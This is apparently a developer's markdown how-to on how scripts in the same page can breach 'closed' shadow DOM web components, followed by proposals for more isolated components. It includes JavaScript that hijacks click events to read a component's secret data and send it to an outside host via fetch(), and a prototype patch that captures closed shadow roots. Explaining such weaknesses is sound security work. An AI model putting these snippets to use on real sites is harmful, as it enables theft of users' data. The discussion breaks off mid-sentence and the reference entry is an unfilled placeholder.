 # HowTo: hack the shadowDOM?

Security: events as leaks for closed shadowDOMs

Let's say you know about a reusable web component with a `closed` shadowDOM. This web component contains some user data that you wish to read. And it listens for a `composed: true` event, such as `click`? Can you access this data somehow if you can get a script running in the same application?

Yes. By listening for the `click` event and then altering the properties of that event.

```javascript
window.addEventListener("click", function(e){
  e.target = function(e){
    const deepTarget = Event.prototype.target.call(e);
    const secret = deepTarget.property.discoveredInDevtools.withMyOwnUser;
    fetch("https://iam.sheep.com/?littleRed=" + secret.user + "&grandma=" + secret.data);
    return deepTarget;
  }
}, true);
```

Another way to access another man's closed shadowDOM is manipulating the `HTMLElement` prototype:
```javascript
const og = HTMLElement.prototype.attachShadow;
Object.defineProperty(HTMLElement.prototype, "attachShadow", {
  value: function(options){
    const shadow = og.call(this, options);
    if (options === undefined || options.mode === "closed")
      this.__closedShadowRoot = shadow;
    return shadow;
  }
});
```

A third way to intercept a `closed` shadowDOMs of a third party is to manipulate the `customElements.define(...)` method.

A forth way to intercept a `closed` shadowDOMs of a third party is to fetch it like text, alter the text directly `replace('{mode: "closed"}', '{mode: "open"}')` and then attach it as an inline script and then load it.

So, shadowDOMs are insecure. They are *not* `<iframe>`s. Yet. But, who is to say they may not be in the future. That there will be the need for and implementation of a set of `.attachShadow({mode: "secure"})` some time in the not so distant future?

On the road towards a more secure shadowDOM, the security loopholes are:
1. In the same way as `<iframe>`s are loaded in secure containers, scripts containing web components must be loaded as isolated entities in the DOM. The browsers must extend their CORS to also, somehow, include web component definition scripts.
2. The interaction between the isolated web components and the rest of the application must be pure data top-down. The `<slot>` system and the CSS borders provide a fairly good basis for achieving this in HTML and CSS, and if the events are not the same object, and originate at the lowest level before propagating up, ie. bounce, then this is achieved on the JS side as well.


## Discussion

`closed` shadowDOMs should secure the inner elements of the web component from being tampered with by the outside context. This should also hold true for `open` shadowDOMs. `closed` just makes it "impossible" to do so.

The "impossibility" of accessing `closed` shadowDOM elements content can make them a) a source for security for developers and thus b) a target for hackers. Imagine that you are developing a web component for communicating user data to a server. You want this web component to be used by many other different sites, so that your user can load his data into it, making it visible to him/her, but at the same time making the data inaccessible for the third party app. web components 
`composed: true` events thus provide a security hole from the shadowDOM down into the web component in a running app. Now, it should be said that if you can access a lightDOM script above a web component, then this event property hack is not you biggest concern. However, it is one of many openings. And a needless one at that. If   
   
## References

 * [dont use shadowDOM for security](find some articles about this)

